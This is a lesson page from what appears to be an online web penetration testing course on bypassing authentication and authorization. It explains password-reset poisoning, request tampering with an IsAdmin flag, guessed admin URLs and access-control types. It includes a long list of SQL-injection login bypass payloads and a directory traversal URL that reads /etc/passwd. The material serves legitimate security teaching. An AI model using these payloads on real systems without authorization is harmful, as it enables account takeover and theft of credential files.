

# Bypassing_Authentication_and_Authorization_in_Web_Applications

Source: https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization

---

[Home](https://www.educative.io/)

[Courses](https://www.educative.io/search?tab=courses)

[Web Application Penetration Testing](https://www.educative.io/courses/web-application-penetration-testing)

# Bypassing Authentication and Authorization

Explore methods to bypass authentication and authorization in web applications by understanding vulnerabilities such as header injection, SQL payloads, and improper access controls. Learn to identify risks like vertical and horizontal privilege escalation and directory traversal, and gain insights into mitigation strategies for securing user access and protecting sensitive data.

We'll cover the following...

- [Exploiting authentication vulnerabilities](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Exploiting-authentication-vulnerabilities)
  - [Nonstandard authentication protocol](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Nonstandard-authentication-protocol)
  - [Basic authentication SQL payloads](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Basic-authentication-SQL-payloads)
- [Exploiting authorization vulnerabilities](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Exploiting-authorization-vulnerabilities)
  - [Vertical access control](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Vertical-access-control)
  - [Horizontal access control](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Horizontal-access-control)
  - [Context-dependent access control](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Context-dependent-access-control)
  - [Common authorization attacks](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Common-authorization-attacks)
    - [Access to admin pages](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Access-to-admin-pages)
    - [Directory traversal](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Directory-traversal)

## Exploiting authentication vulnerabilities[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Exploiting-authentication-vulnerabilities)

Authentication helps ensure that the person accessing a system is really who they’re supposed to be. As such, a system must have a rigid security protocol and well-defined user roles and policies to ensure that the attack surface is minimized, and in the case of a successful attack, the damage is mitigated. Sometimes, cracks may appear, either due to bad design or code or just plain bad luck (if developers are using external libraries and packages), and that’s when adversaries strike.

Let’s look at an example. Using header injection to poison the password reset request, an adversary can bypass authentication by using the password reset link themselves and changing the password to whatever they like. The steps to this approach are as follows:

1. The adversary goes to the login page and clicks the “Forgot/Reset Password” button.
2. A prompt pops up asking the adversary to put in an email address. The adversary inputs the email of their target.
3. The web application sends out a POST request. The attacker captures it and edits it so that the resulting password-reset URL points to their own malicious web application instead.
4. The adversary resends the POST request, due to which the target receives an email with the malicious URL.
5. The target clicks on the URL, and the adversary gains the password-reset token since the adversary can note through their web application that they’ve received the token.
6. The adversary can then use the token themselves to set a password for their target.

Consult the illustration below for a visual representation of the process.



Poisoning the password reset request with header injection

### Nonstandard authentication protocol[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Nonstandard-authentication-protocol)

For the average user and developer, usernames and passwords are always regarded as a secure combination when working with applications, even though that’s normally not the case. Unfortunately, attackers are all too aware of this, and there are even scripts that automate exploits of the more common vulnerabilities.

Let’s look at a basic example. If we have an application with two user privileges (meaning they can log in as either an admin or user), the user sends a request, such as the one below, to authenticate.

```
POST·/login

HOST:·example.com

....

userid=test@mail.com&password=91notReallAsecurePASSWORD92
```

If the website allows it, an attacker can simplify modify the request, as shown below, to log in as an admin.

```
POST·/login

HOST:·example.com

....

userid=test@mail.com&paswword=91notReallAsecurePASSWORD92&IsAdmin=true
```

The attacker now has bypassed the normal user authentication process and gained access as a system administrator.

### Basic authentication SQL payloads[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Basic-authentication-SQL-payloads)

SQL is still widely used to manage the data of websites. Fresh or ignorant developers are usually unaware of why sanitizing user input and properly managing routes is important. So oftentimes, we’ll find websites that yield easily with basic SQL payloads.

Consult the list below for a number of common payloads to try.

MySQL

```
or 1=1

or 1=1--

or 1=1#

admin' --

admin' #

admin'/*

admin' or '1'='1

admin' or '1'='1'--

admin' or '1'='1'#

admin'or 1=1 or ''='

admin' or 1=1

admin' or 1=1--

admin' or 1=1#

admin' or 1=1/*

admin') or ('1'='1

admin') or ('1'='1'--

admin') or ('1'='1'#

admin') or '1'='1

admin') or '1'='1'--

admin') or '1'='1'#

1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

admin" --

admin" #

admin"/*

admin" or "1"="1

admin" or "1"="1"--

admin" or "1"="1"#

admin" or "1"="1"/*

admin"or 1=1 or ""="

admin" or 1=1

admin" or 1=1--

admin" or 1=1#

admin" or 1=1/*

admin") or ("1"="1

admin") or ("1"="1"--

admin") or ("1"="1"#

admin") or ("1"="1"/*

admin") or "1"="1

admin") or "1"="1"--

admin") or "1"="1"#

admin") or "1"="1"/*

1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

⋯

Common payloads

> **Note:** Please ensure that you have permission to pentest the website before trying out these payloads.

Most pentesters, though, in the interest of saving time and trying out more difficult attack vectors, generally just use tools such as Metasploit that come preloaded with scripts that automatically try payloads, such as the ones above. After all, we can only harden our security after first covering our basics.

## Exploiting authorization vulnerabilities[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Exploiting-authorization-vulnerabilities)

Limiting what actions an authenticated user can perform in a system is important. These actions influence the overall operation of the system, especially if the person is the system administrator. System administrators and developers should always check the overall functionality and rigidity of the authorization process deploying their web applications. In other words, web applications need access controls to be configured correctly. System administrators are supposed to help in the overall management of the web application by granting certain permissions to certain users.

However, access control problems occasionally pop up, and these can enable an attacker to change the overall functionality of the system. For example, if an attacker authenticated themselves into the system, unless the compromised user account had an admin role or a role with sufficiently elevated privileges, the attacker wouldn’t be able to do much. In the case of gathering confidential data, a normal user shouldn’t have access to functions or routes that only admin users are supposed to see and know about.

Let’s look at some access control types to get a clearer picture.

### Vertical access control[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Vertical-access-control)

This type of control is used to restrict sensitive information in a system depending on the users. This means that different users have different privileges that they have been specifically given. For example, looking at the previously discussed blogging web application in a new light, the administrator can modify, add, delete, grant, and revoke user privileges—functions that normal users in the system cannot and should not be able to do.


A moderator cannot perform the actions of an admin, while the admin can do vice versa

### Horizontal access control[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Horizontal-access-control)

We ensure that the resources of the web application are restricted to only the users who’re allowed to access them. Therefore, different users have different access to certain subsets of the system resources of the same type. For example, an e-commerce web application will allow users to view their own transaction history but not the history of other users.


User C cannot write a post for User B, and User A shouldn't be able to read User B's private chat history

### Context-dependent access control[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Context-dependent-access-control)

Context-dependent access control allows for restricting access to the system’s functionality and resources based on the users’ interaction with it. It helps in the prevention of performing a wrong or unreasonable action in the system. For example, imagine we’re shopping for a new toothbrush on a grocery store website. We put a normal looking toothbrush in our cart and then pay for it. We then quickly decide that an electronic toothbrush would be much better and try to swap the toothbrushes in our cart. Since the payment has already been performed, the system will not allow such changes; we’ll have to cancel our order and place a new one.

### Common authorization attacks[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Common-authorization-attacks)

Let’s take a look at some common authorization attacks that can be performed in web applications.

#### Access to admin pages[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Access-to-admin-pages)

Administrative functions could indeed be linked to administrative pages, but they shouldn’t be accessible by non-admin users. An attacker might try to access administrative functions by browsing directly through the target domain to the relevant admin URL, as shown below:

```
https://wwww.example.com/admin

https://wwww.example.com/administrator

https://wwww.example.com/web_admin
```

If proper authorization checks aren’t in place, the examples above will result in simple but effective vertical privilege escalation.

#### Directory traversal[#](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Directory-traversal)

Web applications use and manage files as part of their daily operation. With less-than-satisfactory configurations, an attacker can perform a basic exploit and be able to read and write files they’re not supposed to access. If the web server doesn’t contain default settings and have proper role policies, then an attacker can simply run off with `shadow` and `passwd`. They might also be able to edit files and easily modify data or functionality to bring the server to its knees.

Let’s look at a brief example. Imagine there’s a self-hosted blog that has a pretty landing page. Looking at the HTML image tags reveals ``. Some recon or an educated guess leads us to believe that a basic Apache web server is hosting the site. This tells us that the image is probably being loaded from `/var/www/images/`. Basic knowledge of the Linux file system structure tells us that all we need to do to check the system’s passwords is to try out the <https://example.com/image?filename=../../../etc/passwd> URL. It’s indeed just as simple as that.

Common Vulnerabilities

Mitigation Strategies

Ask

[Exploiting authentication vulnerabilities](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Exploiting-authentication-vulnerabilities)

[Nonstandard authentication protocol](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Nonstandard-authentication-protocol)

[Basic authentication SQL payloads](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Basic-authentication-SQL-payloads)

[Exploiting authorization vulnerabilities](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Exploiting-authorization-vulnerabilities)

[Vertical access control](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Vertical-access-control)

[Horizontal access control](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Horizontal-access-control)

[Context-dependent access control](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Context-dependent-access-control)

[Common authorization attacks](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Common-authorization-attacks)

[Access to admin pages](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Access-to-admin-pages)

[Directory traversal](https://www.educative.io/courses/web-application-penetration-testing/bypassing-authentication-and-authorization#Directory-traversal)